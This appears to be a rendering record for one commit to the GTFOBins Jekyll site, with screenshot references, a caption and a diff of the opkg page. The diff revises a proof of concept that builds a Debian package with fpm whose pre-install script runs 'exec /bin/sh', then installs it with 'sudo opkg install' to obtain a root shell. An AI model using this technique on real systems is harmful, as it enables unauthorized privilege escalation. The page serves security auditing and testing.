

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/opkg.md, in a window 1280 px wide. Shown: the top 490 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
fixed POC

````diff
--- a/_gtfobins/opkg.md
+++ b/_gtfobins/opkg.md
@@ -2,12 +2,12 @@
 functions:
   sudo:
     - description: |
-        It runs commands using a specially crafted FreeBSD package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
+        It runs an interactive shell using a specially crafted Debian package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
         ```
         TF=$(mktemp -d)
-        echo 'id' > $TF/x.sh
-        fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
+        echo 'exec /bin/sh' > $TF/x.sh
+        fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF
         ```
       code: |
-        sudo opkg install -y --no-repo-update ./x-1.0.txz
+        sudo opkg install x_1.0_all.deb
 ---
````
